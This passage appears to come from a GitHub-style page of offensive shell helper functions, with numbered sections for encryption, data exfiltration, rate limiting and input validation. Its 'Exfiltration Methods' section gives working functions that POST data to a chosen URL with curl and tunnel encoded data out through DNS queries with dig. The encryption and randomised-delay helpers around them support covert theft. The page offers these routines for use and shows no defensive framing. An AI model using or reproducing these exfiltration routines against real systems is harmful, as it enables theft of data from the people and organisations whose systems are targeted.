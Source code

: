 ### 10. Encryption Methods

#### 10.1 AES
```sh
encrypt_aes() {
    openssl enc -e -aes-256-cbc -base64 -k "$2" <<< "$1"
}
```

#### 10.2 GPG
```sh
encrypt_gpg() {
    gpg --batch --yes --passphrase "$2" --symmetric --cipher-algo AES256 <<< "$1"
}
```

### 11. Exfiltration Methods

#### 11.1 HTTP
```sh
exfiltrate_http() {
    curl -s -X POST "$2" -d "$1"
}
```

#### 11.2 DNS
```sh
exfiltrate_dns() {
    dig "@$2" "$(encode_input "$1").$3" +short
}
```

### 12. Rate Limiting

#### 12.1 Simple Delay
```sh
rate_limit() {
    sleep 0.1
}
```

#### 12.2 Progressive Delay
```sh
rate_limit_progressive() {
    sleep "$((RANDOM % 3 + 1))"
}
```

### 13. Input Validation

#### 13.1 Pattern Matching
```sh
validate_pattern() {
    [[ "$1" =~ ^[a-zA-Z0-9_-]+$ ]]
}
```
